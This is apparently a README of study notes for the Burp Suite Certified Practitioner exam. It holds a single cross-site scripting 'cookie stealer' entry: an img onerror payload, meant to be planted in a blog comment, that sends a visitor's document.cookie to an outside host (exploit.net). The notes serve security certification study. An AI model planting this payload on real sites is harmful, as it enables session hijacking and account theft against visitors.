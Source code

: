 `#0d1117`
# Burp-Suite-Certified-Practitioner-Exam-Study
Burp Suite Certified Practitioner Exam Study Notes

## Cross Site Scripting

### Cookie Stealers

**Place payload in blog post comment section for victim to visit and send cookie.**
```
<img src="1" onerror="window.location='http://exploit.net/cookie='+document.cookie">
```
